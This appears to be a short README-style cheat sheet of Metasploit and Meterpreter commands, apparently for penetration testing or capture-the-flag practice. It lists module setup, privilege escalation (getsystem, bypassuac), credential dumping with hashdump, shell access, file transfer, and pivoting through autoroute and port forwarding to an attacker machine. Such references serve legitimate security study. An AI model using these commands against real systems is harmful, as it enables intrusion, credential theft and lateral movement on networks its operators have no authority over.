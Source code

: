 Basic commands of metasploit-framework:

To start metasploit-framework using CLI,
`msfconsole`

Without banner,
`msfconsole -q`

after starting of MSF, these are the basic commands,
* `search x`
* `use x`
* `info`
* `options, show advanced options`
* `SET X (e.g. set RHOST 10.10.10.10, set payload x)`

## Meterpreter Commands

After getting meterpreter shell, we'll can issue some commands which will help us in exploiting the machine,
* `background`
* `sessions -l`
* `sessions -i N (N is number)`
* `sysinfo, ifconfig, route, getuid`
* `getsystem (privesc)`
* `bypassuac`
* `download x /root/`
* `upload x C:\\Windows`
* `shell`
* `hashdump`

For auto routing,
`use post/multi/manage/autoroute`
then set the options {SESSIONS, SUBNET} (will work if meterpreter shell shows that user is root)

Check active route table,
`route`

port forwarding,
`portfwd add -L <attacker machine IP> -l listening_port -p 80 -r <host machine IP>`

Meterpreter Proxy and Autoroute Blog,
http://blog.safebuff.com/2017/01/02/Meterpreter-Proxy-and-Route/